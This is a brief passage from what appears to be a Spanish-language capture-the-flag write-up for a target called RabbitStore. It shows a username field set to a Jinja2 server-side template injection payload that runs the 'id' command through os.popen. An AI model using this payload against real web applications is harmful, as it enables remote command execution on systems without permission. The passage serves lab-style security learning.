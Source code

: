 <figure><img src="../.gitbook/assets/RabbitStore/putuser.png" alt=""><figcaption></figcaption></figure>

Modificamos el nombre de usuario por el siguiente valor para intentar realizar un `SSTI` en la web.

```
{
	"username":"{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}"
}
```
